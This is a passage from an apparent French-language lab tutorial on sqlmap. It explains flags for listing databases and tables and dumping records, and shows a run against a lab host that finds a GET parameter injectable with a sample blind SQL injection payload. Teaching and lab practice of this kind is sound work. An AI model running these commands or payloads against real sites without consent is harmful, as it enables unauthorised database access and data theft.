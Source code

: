 ```bash
    These options do not fit into any other category

    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users
[13:53:54] [WARNING] you haven't updated sqlmap for more than 2031 days!!!
```

On peut y voir beaucoup de choses, notemment qu'ils n'ont pas fait les mises a jours de depuis 2031 jours ! 

Le flag `--dbs` vous aide à extraire tous les noms de bases de données. Une fois que vous connaissez les noms des bases de données, vous pouvez extraire des informations sur les tables de cette base de données en utilisant `-D nom_base_de_données --tables`. Après avoir obtenu les tables, si vous souhaitez énumérer les enregistrements dans ces tables, vous pouvez utiliser `-D nom_base_de_données -T nom_table --dump` 

```bash
root@ip-10-10-90-184:~# sqlmap --wizard
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:59:20 /2025-10-25/

[13:59:20] [INFO] starting wizard interface
Please enter full target URL (-u):
```

Et si on donne un exemple a SQLMap comme par exemple une url cible qui se termine par `?cat=1` il va comprendre qu'il faut qu'il teste plein de choses voir si c'est possible de faire quelque chose avec ça comme ceci:

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
```